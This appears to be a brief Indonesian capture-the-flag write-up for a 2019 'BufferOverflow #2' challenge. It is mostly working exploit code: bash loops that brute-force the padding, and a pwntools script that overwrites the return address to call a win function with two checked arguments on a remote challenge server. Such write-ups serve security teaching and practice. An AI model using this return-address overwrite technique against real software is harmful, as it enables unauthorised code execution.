


# BufferOverflow #2

<br>
disini dapat melakukan overwrite menuju fungsi win, namun terdapat pengecekan pada 2 buah argumen 
<br><br>


<br>


```
for i in {1..50}; do echo $i; python -c "print 'A'*$i+'\xc2\x91\x04\x08'"| ./bufover-2 ;done
```

<br>

```
for i in {1..50}; do echo $i; python -c "print 'A'*28+'\xc2\x91\x04\x08' + 'A'*$i + '\x55\xDA\xB4\x14\x00\x00\x00\x00\xBE\xB4\x0D\xF0'"| ./bufover-2 ;done
```

<br>

```
from pwn import *

#r = process('./bufover-2')
r = remote('shell.2019.nactf.com', 31184)

win = p32(0x80491c2)
arg1 = p64(0x14b4da55)
arg2 = p32(0xf00db4be)
buff = 'A'*28

payload = buff + win + 'AAAA' + arg1 + arg2

r.sendline(payload)
r.interactive()
```
